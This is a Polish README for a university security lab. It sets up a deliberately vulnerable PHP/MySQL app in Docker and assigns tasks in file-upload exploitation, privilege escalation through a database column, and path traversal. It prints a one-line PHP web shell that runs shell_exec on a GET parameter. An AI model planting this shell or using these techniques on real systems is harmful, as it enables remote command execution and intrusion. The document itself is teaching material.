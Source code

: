 # Instrukcja do części praktycznej

## Konfiguracja środowiska

W celu zainstalowania aplikacji zalecamy skorzystanie z docker-compose.

https://docs.docker.com/compose/install/

Oczywiście kod źródłowy aplikacji jest dla Ciebie dostępny, więc jeśli wolisz wykonać zadanie
w np. XAMPP'ie, to aplikacja powinna uruchomić się bez problemu, jednakże niniejsza instrukcja jest napisana z myślą o docker-compose.

### O aplikacji

Aplikacja, którą będziesz poddawać testowi została napisana w języku PHP (8.2.25) i działa na serwerze Apache. Ponadto korzysta ona z serwera bazodanowego MySQL (MariaDB).

W katalogu src znajdziesz kod źródłowy strony. Chcąc zmienić dane
dostępowe do bazy danych należy zmodyfikować plik src/lib/connect.php. Plik
inicjalizujący bazę danych znajduje się w ścieżce config/init.sql. Zawarte są
w nim kwerendy odpowiedzialne za utworzenie odpowiednich tabel i rekordów. Jeśli
utkniesz w trakcie wykonywania zadania, to możesz śmiało zajrzeć do niego w poszukiwaniu
informajcji o strukturze bazy danych.

### Instalacja

Pliki docker-compose.yml i Dockerfile pomogą Ci w szybkim postawieniu apliakcji.
Jeśli podążasz za naszym zaleceniem, to nie ingeruj w pliki konfiguracyjne aplikacji (no chyba, że napotkasz problem).

Upewnij się, że silnik Dockera jest uruchomiony. Możesz to wykonać włączając go w panelu Docker Desktop.
Następnie w folderze docker użyj komendy:

```sh
docker-compose up --build
```

Terminal powinien wskazywać uruchomienie się 3 kontenerów: php-apache-container,
mysql-container i phpmyadmin-container. Pierwszy i ostatni powinny uruchomić się
szybko i bez problemu, natomiast mysql-container uruchomi się 3 razy i będzie gotowy dopiero
gdy pojawi się komunikat:

```
... [System] [MY-010931] [Server] /usr/sbin/mysqld: ready for connections. ...
```

W katalogu docker został utworzony folder mysql-data. To ważny katalog z perspektywy aplikacji, bo mieści w sobie całą bazę danych. Z racji tego, że nie znajduje się on wewnątrz kontenera, ale na Twoim dysku, to nie musisz martwić się o utratę danych wewnątrz aplikacji.

Aby wejść do aplikacji należy odwiedzić localhost:8080.

```
Login: baim
Hasło: baim
```

Aby wejść w panel phpmyadmin należy odwiedzić localhost:8081. \
Phpmyadmin to aplikacja, która może Ci się przydać do modyfikowania rekordów w tabelach bazy danych.

```
Login: root
Hasło: root
```

Aby zakończyć działanie docker-compose użyj kombinacji CTRL-C.

### O zadaniach

Teraz możesz przystąpić do wykonywania zadań. Zachęcamy Cię, abyś spróbował(-ła) zmierzyć się z zadaniami bez hints i rozwiązań, jeśli jednak nie czujesz się na siłach, to możesz śmiało do nich sięgać. Zostały one napisane w taki sposób, abyś nie czuł(-ła) się zagubiony(-a). Do każdej części zadania zostało dolączone wytłumaczenie mechaniki zaistniałego błędu (najlepiej poczytać po ukończeniu zadania).

Korzystaj również z kodu źródłowego, jeśli uznasz to za konieczne. Być może to Twoja pierwsza styczność z PHP. Jego składnia przypomina mieszankę C i Javascript, więc nie powinieneś(-aś) mieć problemów ze zrozumieniem kodu na poziomie abstrakcji.

Powodzenia!

## Zadanie 1

1. Zapoznaj się z działaniem aplikacji. Zajrzyj do kodu źródłowego i spróbuj zrozumieć zasadę jej działania (NIE analizuj dogłębnie linia po linii).

Jak zaimplementowane jest uwierzytelnianie? \
Jak zaimplementowana jest autoryzacja? \
Jak wczytywane są fragmenty strony? \
[Jak działa aplikacja? [PODPOWIEDŹ]](hints/ex1/1_1_hint.md) \
[Struktura aplikacji [MECHANIKA]](hints/ex1/1_mechanics.md)

2. Wyślij złośliwy moduł

Może to być najprostszy plik o treści:

```php
<?php
  echo "Hello! I'm evil.";
?>
```

lub też kod RCE:

```php
<?php
  echo shell_exec($_GET['cmd']);
?>
```

gdzie $\_GET['cmd'] przyjmuję wartość pola cmd z zapytania GET.

Jakie pliki przyjmuje formularz? \
Gdzie są one przechowywane? \
[Jak wysłać złośliwy kod? [PODPOWIEDŹ]](hints/ex1/2_1_hint.md) \
[Wykonanie [ROZWIĄZANIE]](hints/ex1/2_solution.md) \
[Dlaczego tak się da? [MECHANIKA]](hints/ex1/2_mechanics.md)

3. Przyznaj swojemu użytkownikowi uprawnienia do wykonania złośliwego modułu.

Jakie informacje o użytkowniku przechowuje baza danych? \
Czy któraś z kolumn może zostać nadużyta?

[Jak wygląda struktura bazy danych? [PODPOWIEDŹ]](hints/ex1/3_1_hint.md) \
[Jak to wykonać? [PODPOWIEDŹ]](hints/ex1/3_2_hint.md) \
[Wykonanie [ROZWIĄZANIE]](hints/ex1/3_solution.md) \
[Dlaczego tak się da? [MECHANIKA]](hints/ex1/3_mechanics.md)

4. Uruchom złośliwy moduł

[[MECHANIKA]]()

## Zadanie 2

Czy jest możliwe wykonanie ataku path traversal głębiej niż aplikacja na to pozwala? Wykorzystaj do tego celu narzędzia poznane na laboratoriach.

[Jak się za to zabrać? [PODPOWIEDŹ]](hints/ex2/1_hint.md) \
[Wykonanie [ROZWIĄZANIE]](hints/ex2/1_solution.md) \
[Jaki jest tego powód? [MECHANIKA]](hints/ex2/1_mechanics.md)
